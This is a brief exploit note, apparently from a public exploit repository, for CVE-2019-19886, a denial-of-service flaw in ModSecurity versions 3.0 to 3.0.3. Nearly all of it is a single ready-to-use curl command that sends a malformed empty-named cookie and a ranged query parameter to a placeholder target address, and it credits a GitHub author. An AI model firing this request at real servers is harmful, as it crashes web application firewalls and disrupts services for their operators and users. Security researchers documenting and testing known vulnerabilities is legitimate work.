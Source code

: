 # CVE-2019-19886 ModSecurity DOS

影响版本：  
- 3.0-3.0.3

exp：
```
curl -H 'Cookie: =;' 'http://x.x.x.x/?a=[0-10000]' 
```

[@theMiddle](https://github.com/theMiddleBlue)